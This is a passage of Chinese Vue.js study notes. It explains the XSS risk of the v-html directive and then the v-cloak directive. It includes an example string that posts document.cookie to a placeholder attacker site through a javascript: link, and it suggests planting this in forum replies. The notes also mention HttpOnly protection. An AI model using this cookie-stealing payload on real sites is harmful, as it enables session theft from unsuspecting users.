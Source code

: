 cookie不是跨浏览器的。

提升工作效率，浏览器插件 Cookie-Editor 。能够批量导入导出。

当你在访问A网站时候，浏览器的cookie中有敏感信息，A网站有偷窃代码

```html
<div id="root">
	<div v-html="str2"></div>
</div>

new Vue({
			el:'#root',
			data:{
				str2:'<a href=javascript:location.href="http://要做坏事的网站?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
```

这样点击div的时候，就会把浏览器中的敏感信息传输到坏事服务器上。比如你把上面str2在百度贴吧的回复内容上，这样别人点击的时候就会带过来敏感数据。

但同时，浏览器也做了自己的安全，如果cookie中该键值对被勾选了HTTP（这个其实是服务器返回的），那么document.cookie代码就获取不到该cookie

![](img\微信截图_20220905205616.png)



P42 v-cloak

当js引入在模板之后，由于js返回网速较慢，页面上会出现未被解析的模板的原始代码，比如

```html
{{name}}
```

当网速过慢时，防止未经解析的模板出现在页面上

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-cloak指令</title>
		<style>
			/* 选中所有标签中有v-cloak属性的标签 */
			[v-cloak]{
				display:none;
			}
		</style>
		<!-- 引入Vue -->
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h2 v-cloak>{{name}}</h2>
		</div>
		<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
	</body>
	
	<script type="text/javascript">
		console.log(1)
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
```